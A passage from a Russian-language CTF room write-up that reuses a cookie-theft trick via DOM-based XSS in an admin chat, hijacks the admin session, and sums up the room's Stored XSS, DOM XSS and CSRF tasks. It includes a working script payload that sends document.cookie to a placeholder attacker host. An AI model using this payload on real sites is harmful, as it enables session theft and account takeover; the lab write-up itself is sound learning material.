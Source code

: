 Проворачиваем ту же самую схему с кражей куки, но необходимо подредактировать payload под DOM BASED XSS и отправить его в чат с админом

Payload:
```
<script>var i=new Image(); i.src="//IP/?cookie="+document.cookie;</script>
```

Видим что все отработало как надо:
<img width="1919" height="882" alt="image" src="https://github.com/user-attachments/assets/5da40364-c9d3-422f-b8d3-6837ec99a5a8" />

И получаем куки Админа (первые куки мои так как обновил страницу)
<img width="959" height="124" alt="image" src="https://github.com/user-attachments/assets/e7bba791-9b09-4c96-b401-ae78794486e5" />

Заменяем куки у себя в браузере и получаем второй флаг:
<img width="1913" height="882" alt="image" src="https://github.com/user-attachments/assets/5a657481-1b61-4580-a0aa-3a289e5be90c" />

## 💡 Conclusions

Несмотря на ранг Medium достаточно приятная, не душная комната, которая проверяет знания в Client-Side Attacks

В итоге я использовал Stored XSS, DOM Based XSS, CSRF - как и задумывалось создателями комнаты.
